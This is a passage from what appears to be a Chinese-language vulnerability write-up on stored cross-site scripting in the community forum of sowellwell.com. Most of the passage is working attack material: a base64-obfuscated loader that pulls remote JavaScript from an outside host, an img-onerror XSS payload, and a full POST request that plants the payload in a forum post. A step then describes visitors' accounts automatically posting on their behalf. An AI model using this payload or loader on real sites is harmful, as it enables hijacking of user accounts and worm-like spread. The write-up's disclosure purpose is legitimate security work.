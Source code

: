         base64：
        dmFyIHNjcmlwdD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtzY3JpcHQuc3JjPSdodHRwczovL3VyY2hpbi5ub3Nkbi4xMjcubmV0L3lzJTJGMWYwNjBlODY2NDQxNDU4ZDhlYjY1YWYyN2Q4YmFjMjInO2RvY3VtZW50LmdldEVsZW1lbnRzQnlUYWdOYW1lKCdib2R5JylbMF0uYXBwZW5kQ2hpbGQoc2NyaXB0KTs=

        xss payload：
        <img src=x onerror=eval(atob('dmFyIHNjcmlwdD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtzY3JpcHQuc3JjPSdodHRwczovL3VyY2hpbi5ub3Nkbi4xMjcubmV0L3lzJTJGMWYwNjBlODY2NDQxNDU4ZDhlYjY1YWYyN2Q4YmFjMjInO2RvY3VtZW50LmdldEVsZW1lbnRzQnlUYWdOYW1lKCdib2R5JylbMF0uYXBwZW5kQ2hpbGQoc2NyaXB0KTs='))>

        发送payload：
        POST /w/v1/community/post/new HTTP/2
        Host: sowellwell.com
        Cookie: xxxxx
        Content-Length: 514
        Identifier: jssdk_pbRJTpNazMAEeEM2
        Accept: application/json, text/plain, */*
        Content-Type: application/json;charset=UTF-8
        Origin: https://sowellwell.com

        {"coid":"","coids":[],"title":"鹅鸭杀有组队的吗？","content":"<div id=\"mobile_article_theme_warm\" class=\"content_markdown_body\"><p>如题<img src=x onerror=eval(atob('dmFyIHNjcmlwdD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtzY3JpcHQuc3JjPSdodHRwczovL3VyY2hpbi5ub3Nkbi4xMjcubmV0L3lzJTJGMWYwNjBlODY2NDQxNDU4ZDhlYjY1YWYyN2Q4YmFjMjInO2RvY3VtZW50LmdldEVsZW1lbnRzQnlUYWdOYW1lKCdib2R5JylbMF0uYXBwZW5kQ2hpbGQoc2NyaXB0KTs='))></p></div>","device_name":"Web","watermark":true,"media":[],"publish_type":"post"}


3. 登录另一个账号，访问xss页面，实现自动代替受害者发帖
    
    自动发帖链接（**仅供测试，已经删除**）：https://sowellwell.com/t/612f69f604c21506084dcda2/64fbd184bb034de073c97011
    ![autopost](/assets/uu_images/autopost.png)
